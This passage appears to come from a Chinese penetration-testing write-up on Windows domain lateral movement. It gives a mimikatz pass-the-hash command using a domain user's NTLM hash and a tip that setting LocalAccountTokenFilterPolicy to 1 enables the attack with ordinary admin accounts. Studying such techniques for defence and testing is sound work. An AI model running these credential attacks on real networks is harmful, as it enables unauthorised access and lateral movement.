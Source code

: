 

**b、获取跳板机Hash**

使用mimikatz进行PTH攻击，执行命令：

```
sekurlsa::pth /user:admin /domain:secknow.com /ntlm:7dshbfiehdc951808100f5b1d09aac63
```

备注：这里我使用域用户admin的NTLM Hash进行测试，未成功。可能与域管理员组账号有关。

(通过将LocalAccountTokenFilterPolicy设置为1，也还是可以使用普通管理员账号进行哈希传递攻击)



**C、在新的shell中任意访问域内主机**

![image-20220815205425143](assets/image-20220815205425143.png)
